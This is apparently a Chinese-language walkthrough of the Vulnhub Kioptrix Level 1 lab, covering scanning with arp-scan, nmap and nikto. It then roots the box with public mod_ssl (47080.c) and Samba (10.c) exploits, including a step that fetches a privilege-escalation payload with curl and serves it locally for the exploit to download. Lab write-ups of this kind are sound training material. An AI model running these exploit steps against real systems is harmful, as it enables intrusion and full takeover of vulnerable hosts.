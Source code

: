 # Vulnhub Kioptix Level 1(#1)


# Vulnhub-kioptix-Level-1（#1）

### 基本信息

kali:192.168.110.10

靶机:192.168.110.12

### 一、信息收集

```
arp-scan -l
```

![](/vulnhub-kioptix-Level-1/01.JPG)

```
nmap -sV 192.168.110.12
```

`Apache/1.3.20、mod_ssl/2.8.4、OpenSSL/0.9.6b`

![](/vulnhub-kioptix-Level-1/02.JPG)

```
nikto -host http://192.168.110.12/
```

![](/vulnhub-kioptix-Level-1/03.JPG)

扫到有CVE-2002-0082

443端口使用了mod_ssl服务为2.8.4

### 二、漏洞利用

### 漏洞利用1

![](/vulnhub-kioptix-Level-1/04.JPG)

查询到有exp

![](/vulnhub-kioptix-Level-1/05.JPG)

编译下

```
gcc -o exp 47080.c -lcrypto
```

![](/vulnhub-kioptix-Level-1/06.JPG)

![](/vulnhub-kioptix-Level-1/07.JPG)

```
./exp 0x6b 192.168.110.12 443
```

![](/vulnhub-kioptix-Level-1/08.JPG)

这边是后续的exploit没有下载成功，直接在shell里面尝试从链接里面下载试下

```
curl -O https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
python3 -m http.server 8080
```

```
nano 47080.c
#修改http  改成本地地址
```

![](/vulnhub-kioptix-Level-1/09.JPG)

保存后重新编译运行

![](/vulnhub-kioptix-Level-1/10.JPG)

### 漏洞利用2

前面发现了139端口

用msf扫描一下

![](/vulnhub-kioptix-Level-1/11.JPG)

![](/vulnhub-kioptix-Level-1/12.JPG)

版本是2.2.1a

`searchsploit samba 2.2`找下有无可以利用的漏洞

![](/vulnhub-kioptix-Level-1/13.JPG)

`searchsploit -p 10.c` 寻找路径

![](/vulnhub-kioptix-Level-1/14.JPG)

`cp /usr/share/exploitdb/exploits/multiple/remote/10.c ./`

![](/vulnhub-kioptix-Level-1/15.JPG)

编译一下

![](/vulnhub-kioptix-Level-1/16.JPG)

`./samba -b 0 192.168.110.12`

![](/vulnhub-kioptix-Level-1/17.JPG)

已拿到root权限
